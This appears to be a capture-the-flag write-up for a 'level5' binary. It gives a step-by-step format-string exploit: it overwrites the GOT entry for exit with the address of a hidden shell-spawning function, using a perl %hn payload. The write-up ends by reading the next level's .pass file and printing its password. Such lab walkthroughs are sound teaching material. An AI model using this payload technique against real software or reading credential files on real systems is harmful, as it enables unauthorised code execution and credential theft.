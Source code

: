 # level5

In this level, we have a function that call /bin/sh. This function is never called.

The goal is to call this function (named `o`).

First we got the address of `o` using gdb:
```
> gdb level5
(gdb) disass o
...
0x080484a4 <- this is the address of o
...
```

To call o, we will replace the calls to exit by o (exit is called at the end of printf).

To get the exit address:
```
> objdump -R level5
...
08049838 R_386_JUMP_SLOT   exit
...
```

Ok so we have to replace the value in `0x08049838` (exit) to `0x080484a4` (o).

We can do this using printf (https://www.exploit-db.com/papers/23985).

We only need to replace the last 2 bytes (the first 2 bytes in exit call are already `0x0804`).

To exploit printf, we need to know what is the offset.
```bash
> for i in {0..100}; do echo "Index: $i" && echo "****%$i\$x" | ./level5 ; done | grep -B1 2a2a
Index: 4
****2a2a2a2a
```

We can write any value we want at the exit address with this line
```bash
> ./level5 < <(perl -e 'print "\x38\x98\x04\x08" . "%4\$hn"')
# exit address is 0x08040004
# we only write on the 2 last bytes
```

We dont want 4 bu 0x84a4 (33956 in decimal). So we will add a string of size 33956 - 4 = 33952
```bash
> ./level5 < <(perl -e 'print "\x38\x98\x04\x08" . "%33952x" . "%4\$hn"')
```
Ok no segfault now.

full exploit
```bash
> perl -e 'print "\x38\x98\x04\x08" . "%33952x" . "%4\$hn"' > /tmp/args
> cat /tmp/args - | ./level5
...
(level6) > cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
